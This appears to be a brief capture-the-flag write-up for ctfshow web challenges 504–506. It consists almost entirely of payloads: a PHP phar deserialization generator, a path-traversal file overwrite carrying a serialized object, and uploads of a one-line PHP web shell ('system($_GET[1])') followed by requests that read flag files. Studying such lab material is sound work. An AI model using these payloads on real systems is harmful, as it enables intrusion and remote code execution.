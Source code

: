 ```
    public $sql;
    public $content;
    public $log;

    public function __construct(){
        $this->log='log/1.php';
    }

}
$a = new db();
$phar=new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
```

#  web504

```
覆盖
../../../../../../../../../../../../../../var/www/html/config/settings
内容为
O:2:"db":8:{s:2:"db";N;s:3:"log";O:5:"dbLog":3:{s:3:"sql";N;s:7:"content";N;s:3:"log";s:9:"log/1.php";}s:3:"sql";s:25:"<?php system($_GET[1]);?>";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"port";s:4:"3306";s:4:"addr";s:9:"127.0.0.1";s:8:"database";s:7:"ctfshow";}

之后访问url/log/1.php?1=cat /flag_bei_ni_fa_xian_le
```



# web505

```
上传new.sml内容user<?php system($_GET[1]);?>

http://8184adbc-44af-4034-ae26-48946d374def.challenge.ctf.show:8080/api/admin_file_view.php?1=cat /flag_is_here_aabbcc
post
f=/var/www/html/templates/new.sml&debug=1
```

# web506

```
上传new.yy内容user<?php system($_GET[1]);?>

http://8184adbc-44af-4034-ae26-48946d374def.challenge.ctf.show:8080/api/admin_file_view.php?1=cat /flag_is_here_aabbcc
post
f=/var/www/html/templates/new.yy&debug=1
```
